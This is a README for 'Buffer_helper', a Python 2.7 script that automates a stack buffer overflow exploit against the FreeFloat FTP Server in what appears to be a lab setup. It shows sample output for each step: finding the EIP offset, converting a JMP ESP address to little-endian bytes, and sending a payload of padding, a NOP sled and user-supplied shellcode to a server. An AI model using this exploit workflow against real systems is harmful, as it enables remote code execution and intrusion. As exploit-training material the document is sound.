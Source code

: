 # Buffer_helper

* Buffer_Helper.py Help To Test Buffer overflow FTP Server Exploit .

* write by python 2.7

## Required
* generate your own shell code and replace it in the buffer_helper.py

* create your listner use msfconsloe or netcat


### steps 

1- add the string as input you can use any character input .

 * make sure your string input above "300" character.

 * the buffer_helper  will give output the random sting automatically have same length of the input string .

 * input can be  "aaaaaaaaaaaaa or AAAAAAAA or 11111111/22222222"
```
Examples 

[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 

[+]character length is : 38 

[+]Generated String is: taoeboshifrhuyloeggipydyizkdrqnmtjzxdx

[+]The New character length is: 38


```

2- input the ip address of FTP server and the port .

* buffer_helper will send the data to server .
```
Examples 

[+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

```

### over write

3- after the EIP address get over write  .


* input the  EIP address as hexadecimal . 7755BBFF or 7755bbff .

* buffer_helper will compile  hexadecimal unmber to ASCII and prnit out.

* will print out Exact satch at offset .

```
Examples 

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

```
### little endian network style  . 

* buffer_helper will ask for JMP ESP address.

* input it as hexadecimal 7755BBFF or 7755bbff 

* the buffer_helper will reversed automatically and  print  it as "\xFF\x\bbx\x55\x77"

```
Example:


[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75


```


### attack
* buffer_helper will  management and handling the attack

* calculates automatically and send all payload to server and print out the result.

```
 Example

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```

# All Steps



```
 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        


[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

[+]character length is : 399

[+]Generated String is: rxgixmqoraszkfokqpbyexikbraqjossknbkjtlhbzatqmkxggqibjqfqcccvcgazfaxwtqreqzliyhglwnhfiiexhvrpcgiefqwaraqchhjywhxwfvmurdwelikuywgbvelqsxoaivhhykqaajizxwyobfcpfatnhzbwplteeanhbxcvnsnilnfpctlhlopvocmuciezjbyrgdfcspjahklvwrhfnafkammbucrzoljlobqzlsfmgrhikptmryomphwisryixvhrfmxsjcdjmnbagxhqlxpnzxptecckpvwmnscclkkiskhzmggdjkmalzmyjeyobgdscowqzunlgqshbaikplkekpqulpkmelilkqmataboikcgzzzznhurxcldwfnhefbyhy

[+]The New character length is: 399

[+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```
## Required Software / Setup

* attacker system: Kali Linux

* Victim system: Windows 

* Immunity debugger  https://www.immunityinc.com/products/debugger/

* FloatFTP - The application we are going to exploit  https://archive.org/details/tucows_367516_Freefloat_FTP_Server


##  for Contact  

* administrator@jacstory.tech 

* thank you for reading it 

